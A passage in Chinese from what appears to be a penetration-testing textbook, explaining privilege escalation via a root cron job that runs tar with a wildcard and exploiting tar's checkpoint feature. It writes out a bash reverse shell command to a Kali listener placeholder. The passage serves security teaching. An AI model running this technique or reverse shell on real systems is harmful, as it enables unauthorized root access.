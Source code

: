 请注意，这一技巧的成功与否取决于 cron 任务中是否使用了通配符。

按照以下步骤操作：

1.  这个过程的第一步是识别那些执行带有通配符的命令或脚本的 cron 任务。分析 `crontab` 文件时，发现了一个有趣的 cron 任务，负责创建和压缩备份归档文件：![图 12.14 – 备份 cron 任务    ](img/B17389_12_014.jpg)

    图 12.14 – 备份 cron 任务

    如上截图所示，cron 任务以 root 用户身份每分钟运行一次 `/usr/local/bin` 目录下的 `compress.sh` 脚本，并且每天、每小时、每月都会运行。

1.  我们可以通过运行以下命令来显示`compress.sh`脚本的内容：

    `cat /usr/local/bin/compress.sh`

    输出如下：

    ![图 12.15 – 显示 compress.sh 脚本的内容    ](img/B17389_12_015.jpg)

    图 12.15 – 显示 compress.sh 脚本的内容

    如前面截图所示，我们可以确认脚本是从**用户**帐户的主目录执行的，且文件已使用`tar`工具进行压缩。然而，我们还可以发现`tar`命令的末尾有一个通配符（*****）。这个通配符用于指定**用户**帐户主目录中的所有文件。

1.  `tar`工具具有一个检查点功能，用于在特定文件集之后显示进度消息。它还允许用户定义在检查点期间执行的特定操作。我们可以利用此功能来执行一个反向 Shell 负载，在执行时为我们提供一个提升的会话。

1.  我们可以创建反向 Shell 脚本，并插入一个`bash`命令，它将为我们提供反向 Shell。可以通过在**用户**的主目录中运行以下命令来实现：

    `echo 'bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1' > shell.sh`

    该命令将添加一个`bash`命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。确保在命令中替换相应的 IP 地址和端口号。

    运行上述命令后，应该已经创建了`shell.sh`文件，并且文件中应包含以下截图所示的命令：

    ![图 12.16 – Shell 脚本](img/B17389_12_016.jpg)
